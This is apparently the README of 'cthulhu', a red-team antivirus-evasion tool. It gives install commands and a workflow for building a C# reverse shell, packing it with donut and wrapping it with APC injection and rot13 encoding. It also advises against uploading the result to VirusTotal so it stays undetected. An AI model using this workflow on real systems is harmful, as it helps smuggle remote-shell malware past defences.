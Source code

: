 ![immagine](http://www.clker.com/cliparts/0/c/f/0/1194984914309460086elder_sign_nurbldoff_01r.svg.med.png)

# cthulhu

AV Evasion, Red Team tool, a FourEye fork (by Leginbo https://github.com/lengjibo) 

# Install

git clone https://github.com/foxlox/cthulhu

cd cthulhu

chmod 755 setup.sh

./setup.sh

python3 cthulhu.py
    
    
![immagine](https://user-images.githubusercontent.com/28823598/128512455-1bad09e2-9616-4333-ad37-db895705ff02.png)
  
    
![immagine](https://user-images.githubusercontent.com/28823598/128512283-4e75f989-f5fd-4e54-b954-7741fc231add.png)


# Example

1. Create a new Visual Studio C# Console Project

2. Add reverse.cs and set IP and PORT

3. Build it

4. go to Linux box

5. $ donut compiledapp.exe -o ca.bin

6. $ python3 cthulhu.py -method apc -arch x86 -bin ca.bin -enc rot13

[+]shellcode created: /tmp/shellcode.exe

8. Bind the right port on your linux box and wait.

9. Copy shellcode.exe on Windows box and run it. Don't remember to start your Antivirus.

10. Don't upload your shellcode.exe on Virustotal


    *fox
    
